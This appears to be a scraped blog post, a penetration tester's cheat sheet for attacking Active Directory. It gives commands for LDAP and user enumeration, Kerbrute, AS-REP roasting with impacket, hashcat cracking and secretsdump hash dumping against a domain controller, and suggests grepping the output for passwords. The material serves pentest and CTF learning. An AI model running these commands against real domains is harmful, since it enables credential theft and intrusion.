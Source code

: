 [medium.com](https://medium.com/@dw3113r/active-directory-attack-cheat-sheet-ea9e9744028d)
https://infosecwriteups.com/active-directory-penetration-testing-cheatsheet-5f45aa5b44ff
# Active Directory Attack Cheat Sheet - Dw3113r - Medium
## Attack Privilege Requirements
- [ ]  Kerbrute Enumeration — No domain access required
- [ ]   Pass the Ticket — Access as a user to the domain required
- [ ]   Kerberoasting — Access as any user required
- [ ]   AS-REP Roasting — Access as any user required
- [ ]   Golden Ticket — Full domain compromise (Domain Admin) required
- [ ]   Silver Ticket — Service hash required
- [ ]   Skeleton Key — Full domain compromise (Domain Admin) required
## Remote AD Enumeration/Attacks
This section is my bread and butter. 90% of the stuff I do/use comes from this section. It all boils to enumeration: use enum4linux/ldapsearch to initially see if you can find users/info, then put those users into a list and/or use kerbrute/impacket-lookupsid to find more/verify the found users, then just run through the rest of the commands and hope to get a hash back, crack it, then move onto the password-required tools, then re-run through all the tools as the new user/password. Pretty cut and dry.
**Enumerate port 139/445 with enum4linux:**
```
enum4linux -v $DOMAIN_CONTROLLER_IP
```
**Enumerate LDAP w/ ldapsearch:**
```
ldapsearch -x -h $DOMAIN_CONTROLLER_IP -s base namingcontexts
```
Parse through the returned naming contexts, then enumerate each one:
```
ldapsearch -x -h $DOMAIN_CONTROLLER_IP -b ‘DC=EGOTISTICAL-BANK,DC=LOCAL’
```
You can further query specific sections of each naming context:
```
ldapsearch -h $DOMAIN_CONTROLLER_IP -x -b “DC=cascade,DC=local” ‘(objectClass=person)’
```
Search through the output and see if you can identify interesting parameters. You may be able to create a user list based on the output. You might get lucky and find some sensitive info like passwords. Try piping the command grep and grepping for pass, pwd, password, domain, user, etc..
**Enumerate users via Kerbrute:**
-   [add domain name to / etc / hosts file]
```
./kerbrute userenum — dc $DOMAIN_CONTROLLER_IP -d <domain.local> <user list>
```
You can also enumerate users with netexec’s — users option if you have creds.
If kerbrute doesn’t work, try impacket-lookupsid
```
impacket-lookupsid <domain.local>@$DOMAIN_CONTROLLER_IP
```
If you manual enumeration doesn’t get you a valid list of users try:
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
**AS-REPRoasting:**
```
impacket-GetNPUsers <domain.local>/ -no-pass -usersfile <path to users list> -format hashcat
```
[this command can also be used if you find valid creds, might get different results with creds]
-   [paste hash into a file — users.txt]
```
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
GetNPUsers.py [impacket-GetNPUsers]
**Dump password hashes a specific service account has access to (usually requires creds):**
```
impacket-secretsdump <username>:<password>@<domain name or IP> -dc-ip $DOMAIN_CONTROLLER_IP
```